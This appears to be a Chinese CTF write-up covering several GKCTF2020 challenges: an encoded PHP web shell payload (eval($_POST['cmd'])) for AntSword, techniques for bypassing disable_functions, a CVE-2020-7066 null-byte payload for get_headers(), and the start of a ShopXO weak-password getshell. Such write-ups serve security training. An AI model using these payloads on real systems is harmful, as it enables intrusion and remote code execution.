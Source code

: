 我先构造一个shell蚁剑连接再说：`?Ginkgo=ZXZhbCgkX1BPU1RbJ2NtZCddKTs=` （?Ginkgo=eval($_POST['cmd']);）

连接上之后，可以使用文件系统，但是虚拟终端却不能执行命令，猜测是disable_functions，在phpinfo里面果然翻到了

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171337.png)

关于bypass diable_functions，这里推荐[一篇文章](https://www.cnblogs.com/hookjoy/p/10167315.html)

有四种绕过 `disable_functions` 的手法：

- 第一种，攻击后端组件，寻找存在命令注入的、web 应用常用的后端组件，如，ImageMagick 的魔图漏洞、bash 的破壳漏洞；
- 第二种，寻找未禁用的漏网函数，常见的执行命令的函数有 system()、exec()、shell_exec()、passthru()，偏僻的 popen()、proc_open()、pcntl_exec()，逐一尝试，或许有漏网之鱼；
- 第三种，mod_cgi 模式，尝试修改 `.htaccess`，调整请求访问路由，绕过 php.ini 中的任何限制；
- 第四种，利用环境变量 LD_PRELOAD 劫持系统函数，让外部程序加载恶意 *.so，达到执行系统命令的效果。

这里用的一个[bypass PHP7.0-7.3 disable_function的PoC](https://github.com/mm0r1/exploits/blob/master/php7-gc-bypass/exploit.php)，用蚁剑上传到/tmp，index包含他就可以看到结果了

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171346.png)

 

 

 

### [cve版签到](https://buuoj.cn/challenges#[GKCTF2020]cve版签到)

考点：cve-2020-7066

#### CVE-2020-7066

在低于7.2.29的PHP版本7.2.x，低于7.3.16的7.3.x和低于7.4.4的7.4.x中，将 `get_headers()` 与用户提供的URL一起使用时，如果URL包含零（\ 0）字符（不可见字符），则URL将被静默地截断。这可能会导致某些软件对 `get_headers()` 的目标做出错误的假设，并可能将某些信息发送到错误的服务器。

#### payload

```
?url=http://127.0.0.1%00\.ctfhub.com
```

得到一个hint：` Tips: Host must be end with '123'`

```
?url=http://127.0.0.123%00\.ctfhub.com
```

flag{1608cce2-94d1-4014-9927-a9738ea8280e}

 

 

 

### [老八小超市儿](https://buuoj.cn/challenges#[GKCTF2020]老八小超市儿)

考点：shopxo后台弱口令，安装主题Getshell，定时脚本利用

打开页面，在页脚发现一行话： `Powered by ShopXO v1.8.0`

对于ShopXO这个框架，网上大致三种利用方法：`CVE-2019-5886/7` ， `后台弱口令`
